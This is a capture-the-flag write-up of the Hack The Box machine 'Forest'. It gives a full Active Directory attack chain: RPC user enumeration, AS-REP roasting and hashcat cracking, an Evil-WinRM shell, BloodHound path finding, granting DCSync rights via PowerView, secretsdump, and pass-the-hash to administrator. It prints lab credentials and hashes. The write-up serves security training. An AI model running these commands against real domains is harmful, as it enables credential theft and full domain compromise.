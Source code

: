 ```yaml
---
permalink: /posts/HTB/Forest
title:  "HTB Forest"
author: Luc Kolen
description: "Forest is an easy Windows machine on HTB"
categories:
  - CTF
  - HTB
tags:
  - HTB-Easy
  - Windows
  - RPC
  - AS-Rep roasting
  - Hashcat
  - BloodHound
---
```

# 10.10.10.161 - Forest

- [10.10.10.161 - Forest](#101010161---forest)
  - [Open ports](#open-ports)
    - [TCP](#tcp)
    - [UDP](#udp)
  - [Enumerate users via RPC](#enumerate-users-via-rpc)
  - [AS-REP Roasting](#as-rep-roasting)
  - [Evil-WinRM](#evil-winrm)
  - [Privilege escalation](#privilege-escalation)
  - [TL;DR](#tldr)

## Open ports

### TCP

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ nmap -vv --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.161
```

|Port|Service|
|---|---|
88/tcp|kerberos-sec
135/tcp|msrpc
139/tcp|netbios-ssn
389/tcp|ldap
445/tcp|microsoft-ds
464/tcp|kpasswd5?
593/tcp|ncacn_http
636/tcp|tcpwrapped
3268/tcp|ldap
3269/tcp|tcpwrapped
5985/tcp|Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp|mc-nmf
47001/tcp|Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp|msrpc
49665/tcp|msrpc
49666/tcp|msrpc
49667/tcp|msrpc
49671/tcp|msrpc
49676/tcp|ncacn_http
49677/tcp|msrpc
49684/tcp|msrpc
49706/tcp|msrpc

### UDP

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ nmap -vv --reason -Pn -sU -A --top-ports=20 --version-all 10.10.10.161
```

|Port|Service|
|---|---|
53/udp|domain
123/udp|ntp

## Enumerate users via RPC

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ rpcclient -U "" -N 10.10.10.161
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
...
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

## AS-REP Roasting

Accounts that don't require pre authentication can be abused to get valid password hashes. GetNPUsers.py can be used to get these hashes.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py htb/svc-alfresco -no-pass -dc-ip 10.10.10.161
/usr/share/doc/python3-impacket/examples/GetNPUsers.py:413: SyntaxWarning: "is" with a literal. Did you mean "=="?
  if domain is '':
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:15115157097d426a68bb3ba3bef3556a$3c43a347e7987d71c676a307e0db178deb302602782d260da7f979cd9693e7001d58ecd9233612ee969ce7e7c6de1f9832a3c5e1fbf6ce93389d6e177597d39bd93d349785a3a0b5090a557c5f8ec62c2be318e9217823678f8eb0b0d455f1e44e03760be3d0887eedacbb087327abe44d760f9101e72f2e47ab1bc480e7e355b15457f6e1b3703831c6980d1603a32587f2dce5ef87c1f6e75c466a4780c9e41acd39b86bfb1d5d3928b1991844293f2eb68e89a2e62aa9e28fb155f8b21407dbd7b32ff195ae4cb27d4c433e90544d775e2a5a476e8ca85b72b487c70e04
```

Hashcat can be used to crack this hash

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ echo '$krb5asrep$23$svc-alfresco@HTB:15115157097d426a68bb3ba3bef3556a$3c43a347e7987d71c676a307e0db178deb302602782d260da7f979cd9693e7001d58ecd9233612ee969ce7e7c6de1f9832a3c5e1fbf6ce93389d6e177597d39bd93d349785a3a0b5090a557c5f8ec62c2be318e9217823678f8eb0b0d455f1e44e03760be3d0887eedacbb087327abe44d760f9101e72f2e47ab1bc480e7e355b15457f6e1b3703831c6980d1603a32587f2dce5ef87c1f6e75c466a4780c9e41acd39b86bfb1d5d3928b1991844293f2eb68e89a2e62aa9e28fb155f8b21407dbd7b32ff195ae4cb27d4c433e90544d775e2a5a476e8ca85b72b487c70e04' > hashes
luc@kali:~/Documents/Cyber-security/HTB/Forest$ hashcat -m 18200 hashes /usr/share/wordlists/rockyou.txt
...
$krb5asrep$23$svc-alfresco@HTB:15115157097d426a68bb3ba3bef3556a$3c43a347e7987d71c676a307e0db178deb302602782d260da7f979cd9693e7001d58ecd9233612ee969ce7e7c6de1f9832a3c5e1fbf6ce93389d6e177597d39bd93d349785a3a0b5090a557c5f8ec62c2be318e9217823678f8eb0b0d455f1e44e03760be3d0887eedacbb087327abe44d760f9101e72f2e47ab1bc480e7e355b15457f6e1b3703831c6980d1603a32587f2dce5ef87c1f6e75c466a4780c9e41acd39b86bfb1d5d3928b1991844293f2eb68e89a2e62aa9e28fb155f8b21407dbd7b32ff195ae4cb27d4c433e90544d775e2a5a476e8ca85b72b487c70e04:s3rvice
...
```

The password for the user `svc-alfresco` is `s3rvice`.

## Evil-WinRM

These credentials can be used to get a shell via `Evil-WinRM` and to read the user.txt file

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ../desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt
e5e4e47a************************
```

## Privilege escalation

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ cp /opt/BloodHound/Ingestors/SharpHound.ps1 .
```

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> upload SharpHound.ps1
Info: Uploading SharpHound.ps1 to C:\Users\svc-alfresco\Desktop\SharpHound.ps1

Data: 1297080 bytes of 1297080 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> Import-module ./SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> dir


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/10/2020   4:18 AM          15449 20200610041827_BloodHound.zip
-a----        6/10/2020   4:18 AM          23611 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----        6/10/2020   4:16 AM         972811 SharpHound.ps1
-ar---        9/23/2019   2:16 PM             32 user.txt


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> download 20200610041827_BloodHound.zip
Info: Downloading C:\Users\svc-alfresco\Desktop\20200610041827_BloodHound.zip to 20200610041827_BloodHound.zip

Info: Download successful!
```

Before starting Bloodhound we have to start Neo4j

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ sudo neo4j console
```

![Neo4j login](/assets/images/HTB-Forest/1.a%20neo4j%20login.png)

Now we can start Bloodhound and import the data

```bash
luc@kali:/opt/BloodHound-Binaries$ sudo ./BloodHound --no-sandbox
```

![Bloodhound upload data](/assets/images/HTB-Forest/1.b%20Bloodhound%20upload%20data.png)

![Bloodhound shortest path to domain admin](/assets/images/HTB-Forest/1.c%20Bloodhound%20shortest%20path%20to%20domain%20admin.png)

We've access to svc-alfresco who has GenericAll permissions on the Exchange Windows Permissions group. This allows us to add svc-alfresco to this group. The Exchange Windows Permissions group has WriteDacl permissions on the domain. We can use this to grant DCSync privileges.

We need to use the dev branch of `PowerSploit` to use the `Add-DomainObjectAcl` function in `PowerView.ps1`.

```bash
luc@kali:/opt$ sudo git clone https://github.com/PowerShellMafia/PowerSploit/ -b dev
luc@kali:~/Documents/Cyber-security/HTB/Forest$ cp /opt/PowerSploit/Recon/PowerView.ps1 .
```

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> upload PowerView.ps1
Info: Uploading PowerView.ps1 to C:\Users\svc-alfresco\Desktop\PowerView.ps1

Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> import-module ./powerview.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net group "Exchange Windows Permissions" svc-alfresco /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $password = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $credentials = New-Object System.Management.Automation.PSCredential ("htb\svc-alfresco", $password)
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> Add-DomainObjectAcl -Credential $credentials -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

Now that we've DCSync rights we can use `secretsdump.py` to get all hashes and we can use those to get a shell via `Evil-WinRM`.

```bash
luc@kali:~/Documents/Cyber-security/HTB/Forest$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py svc-alfresco:s3rvice@10.10.10.161
...
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
...
luc@kali:~/Documents/Cyber-security/HTB/Forest$ evil-winrm -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
f048153f************************
```

## TL;DR

- Svc-alfresco doesn't have Kerberos Pre-Authentication enabled allowing us to find the password hash
- Crack the password hash
- BloodHound to find a path from Svc-alfresco to DCSync privileges
- Use those privileges to dump all hashes
- Use administrator hash to log in

